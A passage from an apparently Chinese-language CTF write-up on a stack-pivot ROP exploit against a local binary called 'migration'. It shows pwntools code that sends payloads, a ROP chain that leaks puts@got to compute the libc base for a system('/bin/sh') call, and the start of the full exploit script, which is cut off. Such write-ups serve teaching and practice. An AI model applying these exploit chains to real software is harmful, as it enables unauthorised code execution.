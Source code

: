 ```python
p.sendafter('Try your best :\n',payload1)
gdb.attach(p) #附加gdb进行调试
p.interactive()
```

我们对应gdb看一下执行payload完之后栈的情况：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597554683150-67b5f464-97c6-4a39-ba34-27421bebc109.png)

注意：由于有read函数的存在，此时的gadgets：leave_ret并没有执行，而是等待我们的输入payload2，IDA如下：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597554434211-bb28751d-5b40-4498-9461-699f17a91c16.png)

此时的寄存器状况如下：**<font style="color:#F5222D;"></font>**

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597554281776-eba14176-300a-4cb9-8355-409528af6fcc.png)

> 注意：执行payload1时，发生了栈转移
>

# payload2
我们继续看一下payload2：

> payload2=p32(buf1)+p32(puts_plt)+p32(pop1ret)+p32(puts_got)
>
> payload2+=p32(read_plt)+p32(leave_ret)+p32(0)+p32(buf1)+p32(0x100)
>

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597666011321-177eb735-d41b-44d9-b119-4d1655c7e4e6.png)

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597666092466-df875db3-ce5d-48b7-8c4f-018baacbd3a5.png)

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597666113649-e46600c7-c31b-4f50-a7eb-953e5c8ab1e0.png)

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597666144820-7593cb3c-6c38-49dd-bd39-a8e66cf3d57d.png)

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597666174208-88a18171-2a5e-44da-9ad1-e94c46e0af29.png)

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597666200392-ee0738f5-b95c-46d1-ad4e-24c3aecd6226.png)

~~在payload1中，我们调用了read函数读入了payload2，然后read函数的使命完成。执行leave_ret：（leave）先将mov esp,ebp;  pop ebp（将buf1的地址赋值给ebp，设置为新的栈底），（ret）之后pop eip将put_plt地址赋值给eip（或者说是将返回地址覆盖为~~~~put_plt地址~~~~），此时程序就会执行put函数，~~~~put_plt的参数为puts_got，这样就可以使用puts函数打印出puts函数在内存中的真实地址（~~~~puts(puts_got) ~~~~），~~~~使用~~~~read_plt~~~~将puts的返回地址覆盖，为下一次栈转移做准备；~~~~然后计算出libc基址最后就可以得到system和'/bin/sh'在内存中的地址并利用它。~~

~~这里的 pop1ret 的作用呢。其实就是把 p32(puts_got) 给从栈中取出（这里只要有ret指令就行，是为了平衡堆栈），进而实现接下来执行  read_plt(0,buf,0x100) 函数构造最后的攻击代码，即我们的payload_3。~~

第二部分完整的payload如下：

```python
#coding:utf8
from pwn import *

p=process('./migration')
elf=ELF('./migration')
libc = ELF('/usr/lib32/libc.so.6')#本地libc文件
context.log_level="debug"  

buf=elf.bss()+0x500
buf1=elf.bss()+0x400
read_plt=elf.plt['read']
leave_ret=0x08048418
# 0x08048418 : leave ; ret

```